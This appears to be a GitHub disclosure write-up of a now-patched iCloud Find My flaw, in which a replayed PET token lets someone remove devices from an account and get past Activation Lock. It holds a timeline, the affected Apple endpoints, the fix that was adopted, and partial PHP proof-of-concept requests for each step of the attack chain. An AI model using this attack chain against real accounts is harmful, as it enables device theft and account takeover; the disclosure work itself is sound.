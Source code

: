 # iCloud PET Token Vulnerability — Unauthorized Device Removal via Find My (Apple)

> - Reported to Apple: **March 23, 2024**  
> - Patched: **July 13, 2025** (iOS 18.5)  
> - Apple Report ID: `OE1972926887515`  
> - CVE ID: _Pending (submitted via MITRE, July 19, 2025)_

---

## Summary

This repository documents a critical vulnerability in Apple’s iCloud Find My backend that allowed unauthorized users to:

- Extract a valid **PET (Personal Entitlement Token)** from an iOS backup or proxy request.
- Use that token to impersonate the account holder against Apple’s internal device APIs.
- Remotely **remove iCloud-linked devices** by bypassing authentication and Activation Lock protections.

---

## Proof of Concept (shared privately with Apple)

1. **Extracting PET using `idevicebackup`:**  
   📹 [GETPETANDREFRESHCLIENT.MOV](https://www.mediafire.com/file/wgazlo2it9gijom/GETPETANDREFRESHCLIENT.MOV/file)

2. **Using PET to retrieve `authToken` via `authForUserDevice`:**  
   📹 [GETauthForUserDevice.MOV](https://www.mediafire.com/file/cwo2v6iyto5hrgr/GETauthForUserDevice.MOV/file)

3. **Calling `remove` endpoint to disassociate the device from iCloud:**  
   📹 [REMOVE_ICLOUD.mov](https://www.mediafire.com/file/rlwdo8yay6d5wtl/REMOVE_ICLOUD.mov/file)

---

## ⏳ Disclosure Timeline

- **2024-03-23**: Vulnerability reported to Apple Security.
- **2025-07-13**: Patch released in iOS 18.5.
- **2025-07-18**: Report acknowledged and closed by Apple.
- **2025-07-19**: CVE request submitted to MITRE.

Although over a year passed without feedback, the issue was ultimately patched and confirmed after follow-up.

---

## Technical Overview

The vulnerability was found in Apple’s Find My Device service endpoints hosted at:

- `https://fmipmobile.icloud.com/fmipservice/device/initClient`
- `https://fmipmobile.icloud.com/fmipservice/device/refreshClient`
- `https://fmipmobile.icloud.com/fmipservice/device/authForUserDevice`
- `https://fmipmobile.icloud.com/fmipservice/device/remove`

These APIs accepted PET tokens extracted from local backups or proxy interception, without enforcing proper expiration, uniqueness, or origin verification.

---

## Solution (recommended and adopted)

As part of my disclosure, I explicitly recommended:

- Enforcing a **unique PET per session**, scoped to the **FindMyApp context**, generated by **GSA (General Service Authorization)**.
- Limiting PET validity to **2 minutes** to prevent token replay from backups or unauthorized clients.
- Binding the token to client-specific metadata to prevent cross-context abuse.

These recommendations were implemented by Apple in their July 2025 security update.

---

## 💻 Partial Proof of Concept (Reference Code)

The following examples show critical parts of the vulnerability chain.

### initClient Request

```php
$auth = base64_encode($email . ":" . $PET);
$headers = [
   'Authorization: Basic ' . $auth,
   'Proxy-Connection: keep-alive',
   'Accept-Language: en-us',
   'Content-Type: application/json; charset=utf-8',
   'X-Apple-Find-API-Ver: 3.0',
   'Connection: keep-alive',
   'X-Apple-OAuth-Client-Type: firstPartyAuth',
   'X-Apple-AuthScheme: Forever',
   'X-MMe-Client-Info: <iPhone9,3> <iPhone OS;13.3.1;13G36> <com.apple.AppleAccount/1.0 (com.apple.Preferences/181.1)'
];
$body = json_encode([
    "clientContext" => [ /* valid device info */ ],
    "serverContext" => new stdClass()
]);
$response = curl_post("https://fmipmobile.icloud.com/fmipservice/device/initClient", $headers, $body);
```

###  authForUserDevice Using PET

```php


$payload = [
    "authToken" => $petToken,
    "device" => $deviceId,
    "clientContext" => [ /* cloned device metadata */ ],
    "serverContext" => [ "authToken" => $initAuthToken, "prsId" => $prsId ]
];
$response = curl_post("https://fmipmobile.icloud.com/fmipservice/device/$prsId/authForUserDevice", $headers, json_encode($payload));
```

###  removeDevice Endpoint

```php


$headers = [
    "Authorization: Basic " . base64_encode("$prsId:$initAuthToken"),
    "X-Apple-Command-AuthToken: $commandAuthToken",
    "Content-Type: application/json"
];
$response = curl_post("https://fmipmobile.icloud.com/fmipservice/device/remove", $headers, json_encode(["device" => $deviceId]));
```

## Responsible Disclosure

This vulnerability was reported to Apple via the official [Security Bounty Program](https://support.apple.com/en-us/102774), under tracking ID `OE1972926887515`.

All proof-of-concept material was shared privately and in accordance with Apple’s disclosure guidelines.  
A CVE ID has been requested through MITRE and is pending publication.

---

## Author

**Gerson Aldaz**  
Security Researcher  
📧 aldazactivator@gmail.com  
GitHub: [github.com/AldazActivator](https://github.com/AldazActivator)

---

## 📄 License

> This disclosure is for educational and transparency purposes only, in support of better industry-wide security practices.
